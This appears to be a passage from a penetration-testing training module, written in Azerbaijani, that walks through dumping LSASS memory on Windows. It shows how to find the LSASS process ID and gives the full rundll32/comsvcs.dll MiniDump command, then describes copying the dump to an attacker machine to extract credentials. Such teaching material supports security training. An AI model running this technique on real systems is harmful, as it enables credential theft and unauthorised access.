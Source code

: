 *Dump* faylını yaratmaq üçün əmri verməzdən əvvəl, **`lsass.exe`**-yə təyin olunmuş **proses ID-sini (PID)** müəyyən etməliyik. Bu, **cmd** və ya **PowerShell**-dən edilə bilər:

**Cmd-də LSASS-ın PID-ni Tapmaq**
Cmd-dən, **`tasklist /svc`** əmrini verərək **`lsass.exe`**-ni və onun proses ID-ni tapa bilərik.

```
C:\Windows\system32> tasklist /svc

Image Name                     PID Services
========================= ======== ============================================
System Idle Process              0 N/A
System                           4 N/A
Registry                        96 N/A
smss.exe                       344 N/A
csrss.exe                      432 N/A
wininit.exe                    508 N/A
csrss.exe                      520 N/A
winlogon.exe                   580 N/A
services.exe                   652 N/A
lsass.exe                      672 KeyIso, SamSs, VaultSvc
svchost.exe                    776 PlugPlay
svchost.exe                    804 BrokerInfrastructure, DcomLaunch, Power,
                                   SystemEventsBroker
fontdrvhost.exe                812 N/A
```

**PowerShell-də LSASS-ın PID-ni Tapmaq**
PowerShell-dən, **`Get-Process lsass`** əmrini verə bilərik və proses ID-ni **Id** sahəsində görə bilərik.

```
PS C:\Windows\system32> Get-Process lsass

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
   1260      21     4948      15396       2.56    672   0 lsass
```

LSASS prosesinə təyin olunmuş PID-ni əldə etdikdən sonra, bir *dump* faylı yarada bilərik.

**PowerShell İstifadə Edərək *Dump* Faylı Yaratmaq**
Yüksək imtiyazlı PowerShell seansı ilə, *dump* faylı yaratmaq üçün aşağıdakı əmri verə bilərik:

```
PS C:\Windows\system32> rundll32 C:\windows\system32\comsvcs.dll, MiniDump 672 C:\lsass.dmp full
```

Bu əmrlə, biz **`rundll32.exe`**-ni işə salırıq ki, **`comsvcs.dll`**-in ixrac edilmiş funksiyasını çağırsın, bu da **`MiniDumpWriteDump`** (`MiniDump`) funksiyasını çağıraraq LSASS proses yaddaşını müəyyən edilmiş qovluğa (**`C:\lsass.dmp`**) *dump* etsin. Xatırlayın ki, əksər müasir AV alətləri bunu zərərli fəaliyyət kimi tanıyır və əmrin icrasına mane olur. Belə hallarda, qarşılaşdığımız AV alətini yan keçmək və ya söndürmək yollarını nəzərdən keçirməliyik. AV-ni yan keçmə texnikaları bu modulun əhatə dairəsindən kənardır.

Əgər bu əmri işə salmağı və **`lsass.dmp`** faylını yaratmağı bacarsaq, LSASS proses yaddaşında saxlanıla biləcək hər hansı bir etimadnaməni çıxarmağa cəhd etmək üçün faylı hücumçu qutumuza köçürməyə davam edə bilərik.
